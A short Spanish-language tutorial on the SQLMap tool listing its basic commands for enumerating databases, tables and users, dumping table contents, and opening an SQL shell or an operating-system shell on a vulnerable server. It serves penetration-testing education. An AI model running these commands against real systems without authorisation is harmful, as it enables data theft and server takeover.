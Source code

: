 # SQLMAP

SQLMap es una herramienta de código abierto diseñada para detectar y explotar vulnerabilidades de inyección de SQL en aplicaciones web. Permite a los investigadores de seguridad y a los profesionales de pruebas de penetración automatizar el proceso de identificación y explotación de fallos de seguridad en bases de datos relacionales a través de técnicas de inyección de SQL.
SQLMap automatiza el proceso de identificación y explotación de vulnerabilidades de inyección de SQL en aplicaciones web, permitiendo a los investigadores de seguridad y profesionales de pruebas de penetración llevar a cabo evaluaciones exhaustivas de seguridad en sistemas de bases de datos.

## Comandos básicos para SQLMAP
1. Identificar la URL vulnerable: Necesitas identificar la URL de la página que sospechas que es vulnerable a la inyección de SQL. Esta suele ser una URL que toma parámetros GET o POST y que utiliza estos parámetros para consultar una base de datos.
2. Recopilar información básica: Utiliza SQLMap para recopilar información básica sobre la vulnerabilidad. Puedes hacerlo ejecutando el siguiente comando:

~~~lua
sqlmap -u "URL" --dbs
~~~

Reemplaza "URL" con la URL que has identificado como vulnerable. Este comando intentará identificar las bases de datos disponibles en el servidor.

3. Enumerar tablas: Una vez que hayas identificado las bases de datos disponibles, puedes usar SQLMap para enumerar las tablas dentro de esas bases de datos. Puedes hacerlo con el siguiente comando:

~~~lua
sqlmap -u "URL" -D <database_name> --tables
~~~

Reemplaza <database_name> con el nombre de la base de datos que deseas explorar.

4. Extraer datos: Una vez que hayas identificado las tablas disponibles, puedes usar SQLMap para extraer datos de esas tablas. Puedes hacerlo con el siguiente comando:

~~~lua
sqlmap -u "URL" -D <database_name> -T <table_name> --dump
~~~

Reemplaza <table_name> con el nombre de la tabla de la que deseas extraer datos.

5. Enumeración de usuarios: SQLMap puede intentar enumerar los usuarios en la base de datos utilizando la opción --users. 

~~~lua
sqlmap -u "URL" --users
~~~

6. Ejecución de comandos SQL personalizados: Puedes ejecutar comandos SQL personalizados en el servidor utilizando la opción --sql-shell.

~~~lua
sqlmap -u "URL" --sql-shell
~~~

7. Ejecución de shell en el servidor: SQLMap también puede intentar ejecutar un shell interactivo en el servidor si se encuentra una vulnerabilidad grave. Puedes habilitar esto utilizando la opción --os-shell.

~~~lua
sqlmap -u "URL" --os-shell
~~~
